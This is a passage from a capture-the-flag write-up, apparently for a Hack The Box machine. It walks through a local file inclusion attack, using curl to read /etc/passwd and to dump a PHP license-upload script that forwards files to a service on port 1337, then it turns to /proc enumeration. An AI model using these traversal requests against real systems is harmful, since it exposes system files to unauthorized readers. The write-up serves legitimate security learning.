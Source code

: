 
I couldn't find anything so went back to the parameter from earlier. This gives us the default.html file:

```sh
┌──(root㉿kali)-[/usr/share/seclists/Discovery/Web-Content]
└─# curl http://10.10.11.154/index.php?page=default.html
```

## File Exploration

Let's see if we can do directory traversal to get to other files like passwd:

```sh
┌──(root㉿kali)-[/usr/share/seclists/Discovery/Web-Content]
└─# curl "http://10.10.11.154/index.php?page=/etc/passwd" | grep -v nologin
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1488    0  1488    0     0  27009      0 --:--:-- --:--:-- --:--:-- 27054
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
vagrant:x:1000:1000::/vagrant:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
```

We can, and can see there's a user called dev. Now let's look at that activate_license.php file:

```php
┌──(root㉿kali)-[/usr/share/seclists/Discovery/Web-Content]
└─# curl "http://10.10.11.154/index.php?page=activate_license.php"
<?php
if(isset($_FILES['licensefile'])) {
    $license      = file_get_contents($_FILES['licensefile']['tmp_name']);
    $license_size = $_FILES['licensefile']['size'];

    $socket = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
    if (!$socket) { echo "error socket_create()\n"; }

    if (!socket_connect($socket, '127.0.0.1', 1337)) {
        echo "error socket_connect()" . socket_strerror(socket_last_error()) . "\n";
    }

    socket_write($socket, pack("N", $license_size));
    socket_write($socket, $license);

    socket_shutdown($socket);
    socket_close($socket);
}
?>
```

## Enumeration Of /proc

You can see it's connecting to localhost port 1337, and then writing the contents of **licensefile** to it. We need to find a way to exploit this, first step is to find the process running on port 1337 on the box. To do that we can look at [proc](https://man7.org/linux/man-pages/man5/proc.5.html), the pseudo-filesystem which we covered in [Backdoor](https://pencer.io/ctf/ctf-htb-backdoor) a while ago.
